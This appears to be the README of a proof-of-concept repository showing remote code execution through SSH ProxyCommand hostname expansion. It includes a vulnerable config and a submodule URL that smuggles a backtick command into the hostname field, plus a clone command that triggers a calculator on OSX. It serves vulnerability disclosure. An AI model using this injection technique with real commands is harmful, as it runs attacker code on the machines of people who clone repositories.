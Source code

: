 ## RCE via insecure `~/.ssh/config`

Use of tokens like %h, %p in `ProxyCommand` is quite popular to use tunnels and connection proxying using SSH.

### Vulnerable config

```
host *.example.com
  ProxyCommand /usr/bin/nc -X connect -x 192.0.2.0:8080 %h %p
```

Note: in my initial assessment I was under the impression that using '%h` (single quotes) would avoid this, but looks like that is still going to be vulnerable with something like:

```
url = ssh://'`xcalc`'foo.example.com/bar
```

Taken from: https://man.openbsd.org/ssh_config#ProxyCommand

### What is in this repository

A submodule which would exploit this vulnerability to pop a calculator on OSX.

Try it out using:

`git clone git@github.com:bananabr/poc-proxycommand-vulnerable.git --recurse-submodules`
